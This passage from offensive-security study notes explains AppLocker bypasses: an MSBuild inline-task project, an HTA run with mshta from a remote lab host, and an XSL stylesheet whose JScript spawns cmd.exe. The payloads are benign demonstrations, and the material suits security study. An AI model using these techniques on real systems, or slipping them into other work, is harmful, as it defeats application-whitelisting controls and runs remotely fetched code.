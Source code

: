 ```xml
  </UsingTask>
</Project>
```

The C# project file above will simply print `Hello From a Code Fragment` and `Hello From a Class.` to the screen.

```bat
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe T1127.001.csproj
```

## Bypassing AppLocker with JScript

HTML Applications include embedded Jscript or VBS code that is parsed and executed by `mshta.exe`.

Since `mshta.exe` is located in `C:\Windows\System32` and is a signed Microsoft application, it is commonly whitelisted.

### JScript and MSHTA

`mshta http://192.168.119.120/test.hta`

```xhtml
<html> 
<head> 
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
</script>
</head> 
<body>
<script language="JScript">
self.close();
</script>
</body> 
</html>
```

Shortcut target

`C:\Windows\System32\mshta.exe http://192.168.119.120/test.hta`

### XSL Transform

`test.xsl`

```xsl
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
		<![CDATA[
			var r = new ActiveXObject("WScript.Shell");
			r.Run("cmd.exe");
		]]>
	</ms:script>
</stylesheet>
```
